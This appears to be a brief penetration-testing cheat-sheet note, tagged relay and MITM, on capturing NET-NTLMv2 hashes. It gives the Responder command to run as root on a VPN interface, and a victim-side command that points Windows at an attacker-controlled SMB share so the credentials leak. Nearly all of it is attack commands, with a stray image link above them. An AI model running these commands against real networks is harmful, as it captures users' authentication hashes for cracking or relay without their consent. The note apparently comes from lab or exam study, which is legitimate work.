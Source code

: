 #relay #MITM

#### Capturing NET-NTLMv2

```bash
sudo responder -I tun0 -wv
```

from the victim

```bash
dir \\192.168.119.2\test
```
